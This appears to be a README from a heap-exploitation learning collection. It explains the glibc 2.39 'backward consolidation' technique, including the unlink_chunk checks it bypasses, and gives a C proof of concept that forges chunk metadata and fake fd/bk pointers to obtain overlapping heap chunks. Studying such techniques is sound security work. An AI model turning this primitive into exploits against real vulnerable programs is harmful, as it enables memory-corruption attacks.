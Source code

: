 ## backward consolidation

Same as [forward consolidation](../forward_consolidation)

**Purpose:** We can have two separate chunks allocated to the same space

**Require:** Have an ability to change the metadata of the allocated chunks

**Mitigations need to bypass:** The malloc consolidates 2 chunks using `malloc_consolidate` function, but before consolidate them, malloc must unlink (use `unlink_chunk`) first. And there are two mitigations inside the `unlink_chunk` that we need to bypass

- [prev_size](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1610-L1611)
- [fd/bk](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1616-L1617)

## PoC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    long *consolidated_chunk, *victim, *chunk;

    consolidated_chunk = malloc(0x80);
    victim = malloc(0x410);
    chunk = malloc(0x10); // Avoid top-chunk consolidate

    /* Setup victim prev_size & size fields */
    victim[-2] = 0x90;
    victim[-1] = 0x420;

    /* Create a FAKE main_arena */
    consolidated_chunk[8] = (long)&consolidated_chunk[-2];
    consolidated_chunk[9] = (long)&consolidated_chunk[-2];

    /* Create a FAKE fd/bk */
    consolidated_chunk[0] = (long)&consolidated_chunk[6];
    consolidated_chunk[1] = (long)&consolidated_chunk[6];

    free(victim); // Triger backward consolidation
    // After this, our victim chunk would be freed, and due to backward consolidation it will be merged with the consolidated_chunk
    // This create an overlapping chunk on a 0x90 (include metadata) chunk
    long *overlaping_chunk = malloc(0x80);
    long *new_chunk = malloc(0x410);

    // Confirm again
    assert(overlaping_chunk == consolidated_chunk);

    return 0;
}
```
